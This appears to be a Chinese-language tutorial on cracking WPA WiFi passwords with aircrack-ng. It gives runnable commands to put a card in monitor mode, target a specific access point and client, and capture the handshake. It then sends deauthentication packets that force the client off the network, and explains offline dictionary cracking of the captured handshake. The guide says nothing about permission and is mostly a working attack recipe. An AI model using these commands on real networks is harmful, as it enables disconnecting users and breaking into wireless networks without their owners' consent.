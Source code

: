 [toc]

[Aircrack-ng 官网资料](http://www.aircrack-ng.org/doku.php?id=airmon-ng)



```bash
# airmon-ng 开启监听模式
$ airmon-ng start wlan0

# airodump-ng 扫描周围 WiFi 网络
$ airodump-ng wlan0mon -a

$ bssid=D4:84:09:7B:A5:7A
$ client=84:46:93:D7:97:81
$ ch=6

# airodump-ng 开始抓包
# airodump-ng -c {CH} --bssid {BSSID} -w {要保存握手包的目录} {无线网卡名称}
$ airodump-ng -c $ch --bssid $bssid -w ./25 wlan0mon


# 强制重连
# aireplay-ng -0 {发送反认证包的个数} -a {BSSID} -c {强制下线的MAC地址(STATION下面的地址)} {无线网卡名称}
aireplay-ng -0 10 -a $bssid -c $client wlan0mon

# 退出
airmon-ng stop wlan0mon
```

## 准备

linux 系统：

- 安装 kali 系统（自带 aircrack-ng 套件）
- 其他的 linux 系统如 ubuntu 要手动安装 aircrack-ng 套件

```bash
sudo apt install aircrack-ng
```

网卡：不是随便的网卡就行，一定要看看网卡芯片支持 aircrack-ng 与否。

- 虚拟机 vm 之类的：要购买外置的 usb 无线网卡，并安装驱动。
  [usb 无线网卡](https://blog.csdn.net/sandalphon4869/article/details/104214781)
  
- 双系统可以使用本机网卡，但要看看支持 aircrack-ng 吗，比如我的 Realtek 8821ce 就不支持。

  【最好的方式，Kali USB Live，即插即用，可本机网卡】


## 原理

破解的原理还是**一个一个试**，之所以要抓握手包，是因为握手包中含有经过加密的密码，我们将握手包抓下来后，可以**在本地跑字典破解**，并且每秒钟可以试几万个密码。

但是如果没有握手包，我们只能手动输密码，那样是很慢的，即使可以用程序来跑，也不能保证路由器没有设置错误次数，有可能会禁止连接，即使没有设置错误次数，但是每次与路由器交互的过程所需要耗费的时间也大于一秒。
